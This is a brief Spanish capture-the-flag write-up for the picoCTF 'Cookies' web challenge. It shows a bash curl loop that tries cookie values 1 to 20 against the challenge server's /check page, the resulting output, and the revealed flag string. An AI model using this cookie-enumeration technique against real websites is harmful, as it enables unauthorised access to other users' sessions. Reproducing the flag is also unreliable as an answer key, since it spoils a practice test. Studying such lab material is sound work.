
#### Description

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:6418/](http://mercury.picoctf.net:6418/)


Detalles 
poner como contraseña **snickerdoodle**
y luego copear el codigo una ves echo esto y queraria asi 
http://mercury.picoctf.net:6418/check 
pegar este mismmo en en la terminal de ubuntu de la siguiente forma 
marcorojas@MarcoRojas:~$ for i in {1..20}; do curl -S http://mercury.picoctf.net:6418/check -H "cookie: name =$i";done |
grep picoCTF
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1780  100  1780    0     0   1416      0  0:00:01  0:00:01 --:--:--  1416
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1780  100  1780    0     0   7542      0 --:--:-- --:--:-- --:--:--  7510
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1776  100  1776    0     0   7278      0 --:--:-- --:--:-- --:--:--  7278
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1776  100  1776    0     0   7019      0 --:--:-- --:--:-- --:--:--  7047
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1779  100  1779    0     0   1418      0  0:00:01  0:00:01 --:--:--  1418
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1777  100  1777    0     0   7051      0 --:--:-- --:--:-- --:--:--  7079
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1771  100  1771    0     0   7536      0 --:--:-- --:--:-- --:--:--  7568
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1774  100  1774    0     0   8328      0 --:--:-- --:--:-- --:--:--  8328
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1770  100  1770    0     0   8634      0 --:--:-- --:--:-- --:--:--  8634
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1774  100  1774    0     0   8027      0 --:--:-- --:--:-- --:--:--  7990
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1772  100  1772    0     0   8165      0 --:--:-- --:--:-- --:--:--  8165
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1772  100  1772    0     0   8054      0 --:--:-- --:--:-- --:--:--  8054
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1774  100  1774    0     0   7548      0 --:--:-- --:--:-- --:--:--  7581
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1770  100  1770    0     0   7224      0 --:--:-- --:--:-- --:--:--  7195
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1776  100  1776    0     0   1334      0  0:00:01  0:00:01 --:--:--  1334
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1774  100  1774    0     0   7780      0 --:--:-- --:--:-- --:--:--  7780
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1771  100  1771    0     0   7441      0 --:--:-- --:--:-- --:--:--  7472
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1184  100  1184    0     0   5103      0 --:--:-- --:--:-- --:--:--  5081
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1774  100  1774    0     0   7713      0 --:--:-- --:--:-- --:--:--  7713
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1773  100  1773    0     0   7880      0 --:--:-- --:--:-- --:--:--  7880
ahi encontraremos la bandera 
